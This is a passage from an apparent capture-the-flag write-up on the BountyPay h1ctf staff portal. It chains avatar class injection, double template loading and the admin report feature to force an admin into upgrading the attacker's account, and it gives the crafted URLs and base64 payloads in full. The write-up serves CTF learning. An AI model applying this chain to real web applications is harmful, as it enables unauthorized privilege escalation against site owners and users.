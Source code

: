 Using the Profile tab, you can change the Sandra's name and avatar. Unfortunately XSS filters are in place and it will be a little more complicated than loading the endpoint with a src attribute. 
However, avatars are weirdly handled: they are just classes and you can basically set any class to your avatar element using burp!
The idea is to set the "upgradeToAdmin" and the "tab3" class to the avatar element to emulate a click event on it on page load, also triggering the click listener of "upgradeToAdmin" and sending the upgrade request automatically!

{F856316}
And it gets reflected back as planned:
```html
<div style="margin:auto" class="avatar avatar1 upgradeToAdmin tab3"></div>
```

From there, loading https://staff.bountypay.h1ctf.com/?template=ticket&ticket_id=3582#tab3 will trigger an automated request to https://staff.bountypay.h1ctf.com/admin/upgrade?username=undefined

## Setting our username
The username is picked from the input `$('input[name="username"]')`. There are only two pages where there is such an input: profile edit tab and login form.
We can't set the value of this field on admin profile edit (it would be 'Admin' on his side) so there is only the login form left.

It's interesting to note that you can access https://staff.bountypay.h1ctf.com/?template=login even if we are logged in. 
Adding a GET parameter username allows us to set the field content on load: https://staff.bountypay.h1ctf.com/?template=login&username=sandra.allison

## Pairing login and evil payload
The template GET parameter can be set twice at once: you can load two templates in a single request: https://staff.bountypay.h1ctf.com/?template[]=home&template[]=login

From there, you just have to set it all together: https://staff.bountypay.h1ctf.com/?template[]=ticket&ticket_id=3582&template[]=login&username=sandra.allison#tab3
Loading this URL will issue a request to https://staff.bountypay.h1ctf.com/admin/upgrade?username=sandra.allison, PERFECT!

## Sending it to admins
Last step is to send your evil URL to Admins using the page report feature.
So you report a random page and catch the outgoing using burp:
`https://staff.bountypay.h1ctf.com/admin/report?url=Lz90ZW1wbGF0ZT10aWNrZXQmdGlja2V0X2lkPTM1ODI=`
url parameter is base64 encoded (`Lz90ZW1wbGF0ZT10aWNrZXQmdGlja2V0X2lkPTM1ODI=` => `/?template=ticket&ticket_id=3582`)

Base64 encoding ours: `?template[]=ticket&ticket_id=3582&template[]=login&username=sandra.allison#tab3` => `P3RlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyJnRlbXBsYXRlW109bG9naW4mdXNlcm5hbWU9c2FuZHJhLmFsbGlzb24jdGFiMw==`

Last step is to put it all together and requesting https://staff.bountypay.h1ctf.com/admin/report?url=P3RlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyJnRlbXBsYXRlW109bG9naW4mdXNlcm5hbWU9c2FuZHJhLmFsbGlzb24jdGFiMw==

Here you are! Escalated to Admin!
{F856335}

---
